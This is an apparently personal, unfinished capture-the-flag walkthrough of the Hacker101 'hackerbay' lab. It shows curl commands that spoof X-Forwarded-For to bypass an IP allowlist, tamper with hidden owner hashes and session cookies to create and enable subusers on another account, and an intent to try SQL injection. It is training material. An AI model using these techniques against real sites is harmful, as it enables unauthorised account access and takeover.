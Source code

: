 > WIP
> env: hackerbay, a website where a bunch of stuff is being sold, someone posted a user/pass breach, hack in and take it down.

#### flag 0
- remembered a website crawling tip from past CTFs, checked the robots.txt filepath
```
User-agent: *
Disallow: s3cr3t-4dm1n/
```
- when I navigated to the filepath, I got  a 403 forbidden, not a 404 not found
- the * means it applies to all robots, and the specified path is where the robots are not allowed to go
- might be a directory, so I scanned the path with dirb - found: `/s3r3t-4dm1n/.htaccess`
- navigating to that filepath, the `.htaccess` file is downloaded, which contains the contents:
```
Order Deny,Allow
Deny from all
Allow from 8.8.8.8
Allow from 8.8.4.4
```
- so I used curl to change my access IP (testing both allowed IPs):
```bash
curl -H 'X-Forwarded-For: 8.8.8.8' <url/s3cr3t-4dm1n>
curl <url/s3cr3t-4dm1n> -H 'X-Forwarded-For: 8.8.8.8'
```
- I still got a 403 error (which was very confusing)
- tried running it in powershell with `curl.exe`, same response
- basically threw in the towel atp and found another writeup; long story short they followed the same steps and got the flag so there as probably an issue with my VM/ updates
- (you should get the flag with no issues probably)
#### flag 1
- usernames are shown next to listings (which took me an embarrassingly long time to figure out)
- so I reset the password as `hunter2`
- after using inspect (and digging through like 17000 layers of divs) I found the account hash is stored in a hidden value, and unter2's is `value="cf505baebbaf25a0a4c63eb93331eb36"`
- after that I tried to access hunter2's auction page:
``` bash
curl --cookie 'userhash=cf505baebbaf25a0a4c63eb93331eb36' https://9ab51d50439ae311e06f11eacf66893d.ctf.hacker101.com/dashboard/auctions
```
- which didn't work
- my next thought was to enable a subuser (which handles the main user's auctions) using hunter2's hash
- inspecting the subuser under form method post we get:
```html
   <input type="hidden" name="owner_hash" value="my acc hash value">
```
- there are two other parameters needed to create a subuser, `new_username` and `new_password`
- I created a new subuser account using curl (x form post method, if you're using httpie I think it's -v POST)
```bash
curl https://9ab51d50439ae311e06f11eacf66893d.ctf.hacker101.com/register -d owner_hash=cf505baebbaf25a0a4c63eb93331eb36&new_username=222&new_password=password'
```
- then I logged in with the new account, and I got a  'account waiting for activation' message along with a flag
#### flag 3
- to enable user 222, I log in with my other account (111), and use the same form post method, but instead change the subuser hash to 222's hash, and the userhash cookie to hunter2's hash. 
- change the `enable_toggle=enable` (tested with disable too)
```bash
curl https://9ab51d50439ae311e06f11eacf66893d.ctf.hacker101.com/dashboard/subusers --cookie 'userhash=cf505baebbaf25a0a4c63eb93331eb36' -d 'hash=f2022076ad3ce0245c5e416b272be4d0&enable_toggle=enable'
```
- this isn't working, tried it with verbose mode for troubleshooting (slept through my self taught networking course on youtube university so that was also a bunch of gibberish)
- I ended up changing the cookie to the actual session token (logged in as user 111), keeping the hash as subuser 222's, and changing the enable toggle
```bash
curl -v https://9ab51d50439ae311e06f11eacf66893d.ctf.hacker101.com/dashboard/subusers --cookie 'token=YjQ4OTZjZjQyNDQwYTdhYTIxNTYwYzAxZjUyN2ZmYTVjN2JhYjRkNGY1YzY2NjcyYzQ2NjdmYTUxZjZkMGQxNTU4NDM3ZGZkYzU2ODkxYjM0OWVkM2M2ZWE1ODc2NDI0M2MzOWJjMDFkMDkxZWQ1NzdmYTcxNWY1OGJlODAwM2U%3D' -d 'hash=f2022076ad3ce0245c5e416b272be4d0&enable_toggle=enable'
```
- the flag here was under user details on login

#### flag
- next, I went to my auctions on subuser 222
- viewing the source code, there is a section called `auction_type_id` in the `form-control` class, which shows options for id's numbered 0-5
- there is also a class called `auction_questions`. when I tried to navigate to the /auctions/questions filepath, I got an invalid id error `{"error":"Missing id parameter"}`
- so I navigated to the same filepath adding the id parameter `/dashboard/auctions/questions?id=1`, which displays this as raw data: 
```json
{"name":"Desktops","questions":[{"question":"Make","field_name":"field_4728_186574"},{"question":"Model","field_name":"field_5738_281961"},{"question":"RAM","field_name":"field_5051_369408"},{"question":"Processors","field_name":"field_4032_347621"}],"auctions":[{"id":"1","title":"Ultra Desktop"},{"id":"9","title":"Premium Desktop"},{"id":"10","title":"Work Station"}]}
```
- changing the id to values like 0 or 12 returns an invalid auction id error
- SQL is the way to go in this case - end goal obtain the admin user and password
